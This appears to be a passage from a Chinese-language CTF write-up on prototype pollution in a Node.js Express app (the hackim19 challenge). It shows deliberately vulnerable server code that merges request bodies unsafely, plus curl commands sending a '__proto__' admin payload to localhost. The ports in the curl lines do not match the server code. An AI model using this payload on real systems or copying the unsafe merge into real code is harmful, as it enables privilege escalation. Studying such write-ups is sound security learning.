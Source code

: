 ```javascript

function clone(a) {
  return merge({}, a);
}

// Constants
const PORT = 8080;
const HOST = '127.0.0.1';
const admin = {};

// App
const app = express();
app.use(bodyParser.json());
app.use(cookieParser());

app.use('/', express.static(path.join(__dirname, 'views')));
app.post('/signup', (req, res) => {
  var body = JSON.parse(JSON.stringify(req.body));
  var copybody = clone(body);
  if (copybody.name) {
    res.cookie('name', copybody.name).json({
      done: 'cookie set',
    });
  } else {
    res.json({
      error: 'cookie not set',
    });
  }
});
app.get('/getFlag', (req, res) => {
  var аdmin = JSON.parse(JSON.stringify(req.cookies));
  if (admin.аdmin == 1) {
    res.send('hackim19{}');
  } else {
    res.send('You are not authorized');
  }
});
app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);
```

这段代码的漏洞就在于 merge 函数上，我们可以这样攻击：

```bash
curl -vv --header 'Content-type: application/json' -d '{"__proto__": {"admin": 1}}' 'http://127.0.0.1:4000/signup';

curl -vv 'http://127.0.0.1/getFlag'
```

首先请求 `/signup` 接口，在 NodeJS 服务中，我们调用了有漏洞的 `merge` 方法，并通过 `__proto__` 为 `Object.prototype`（因为 `{}.__proto__ === Object.prototype`） 添加上一个新的属性 `admin`，且值为 1。
